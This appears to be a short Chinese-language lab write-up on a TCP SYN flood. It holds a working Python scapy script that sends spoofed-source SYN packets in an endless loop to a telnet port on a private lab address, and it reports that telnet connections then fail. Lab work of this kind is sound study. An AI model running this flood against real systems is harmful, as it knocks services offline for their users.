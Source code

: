 # scapy tcp synflood

## 关闭SYN cookie

![image-20220408203956085](readme.assets/image-20220408203956085.png)

scapy脚本

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="172.17.0.3")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt['IP'].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)

```

telnet连不上

![image-20220410194935227](readme.assets/image-20220410194935227.png)
